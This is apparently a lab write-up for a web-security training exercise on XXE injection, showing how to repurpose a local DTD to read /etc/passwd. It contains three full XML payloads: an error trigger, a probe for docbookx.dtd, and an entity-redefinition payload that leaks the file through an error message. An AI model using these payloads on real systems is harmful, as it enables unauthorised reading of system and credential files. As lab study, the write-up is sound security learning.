




# Lab: Exploiting XXE to retrieve data by repurposing a local DTD

> Lab Objective: trigger an error message containing the contents of the /etc/passwd file.

- Check Stock for any Product then inspect the HTTP Request.
  

- When triggering XML Parsing Error, using the following payload:

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE attacker [
    <!ENTITY % xxe SYSTEM "file:///doesntexist">
    %xxe;
]>
<stockCheck>
    <productId>
        1
    </productId>
    <storeId>
        1
    </storeId>
</stockCheck>
```

- The Error occured:
  

- When testing for the existence of the `file:///usr/share/yelp/dtd/docbookx.dtd` file, using this payload:

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [
    <!ENTITY % local_dtd SYSTEM "file:///usr/share/yelp/dtd/docbookx.dtd">
    %local_dtd;
]>
<stockCheck>
<productId>1
</productId>
<storeId>1
</storeId>
</stockCheck>
```

- You don't get an error, therefore the file exist.
  

- In order to retrieve contents of `/etc/passwd`, use this paylaod:

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [
    <!ENTITY % local_dtd SYSTEM "file:///usr/share/yelp/dtd/docbookx.dtd">
    <!ENTITY % ISOamso '
    <!ENTITY &#x25; file SYSTEM "file:///etc/passwd">
    <!ENTITY &#x25; eval "<!ENTITY &#x26;#x25; error SYSTEM &#x27;file:///nonexistent/&#x25;file;&#x27;>">
    &#x25;eval;
    &#x25;error;
    '>
    %local_dtd;
]>
<stockCheck>
    <productId>
        1
    </productId>
    <storeId>
        1
    </storeId>
</stockCheck>
```

- The contents of `/etc/passwd` is retrieved successfully.
  

---
